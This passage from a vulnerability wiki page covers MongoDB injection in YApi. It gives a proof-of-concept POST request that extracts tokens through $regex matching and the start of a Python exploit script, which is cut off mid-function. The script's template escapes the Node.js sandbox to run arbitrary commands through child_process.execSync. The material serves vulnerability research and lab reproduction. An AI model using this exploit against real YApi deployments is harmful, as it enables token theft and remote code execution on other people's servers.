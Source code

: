 getProjectIdByToken method call `server/models/token.js#findId` method

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1671175690677-5aad9d1b-d6ef-499c-a797-19729ded9b5b.png) Use the $regex keyword to match the token in the MongoDB database, and judge whether the token is correct through the page echo

```php
db.token.findOne({token:{'$regex':'^1c'}})
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1671178473758-95a3459a-899a-4b36-972d-c8f5279e69b8.png)

Verify POC

```php
POST /api/interface/up

{"id": -1, "token": {"$regex": "^xxxxx", "$nin": []}}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1671178679701-74a62f84-0216-4f5e-acc3-44ef42ebbbc3.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1671178691191-dcd8d4b1-9972-4205-80a1-5138ecd811c1.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1671178776347-fcd745c6-f3f1-43a7-97e8-2ad68b9d0f0b.png)

## Vulnerability POC

<a-alert type="success" message="https://github.com/vulhub/vulhub/tree/master/yapi/mongodb-inj" description="" showIcon>
</a-alert>
<br/>

```python
import requests
import json
import click
import re
import sys
import logging
import hashlib
import binascii
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from urllib.parse import urljoin

logger = logging.getLogger('attacker')
logger.setLevel('WARNING')
ch = logging.StreamHandler(sys.stdout)
ch.setFormatter(logging.Formatter('%(asctime)s - %(message)s'))
logger.addHandler(ch)
choices = 'abcedf0123456789'
script_template = r'''const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
const Buffer = FunctionConstructor('return Buffer')()
const output = process.mainModule.require("child_process").execSync(Buffer.from('%s', 'hex').toString()).toString()
context.responseData = 'testtest' + output + 'testtest'
'''


def compute(passphase: str):
    nkey = 24
    niv = 16
```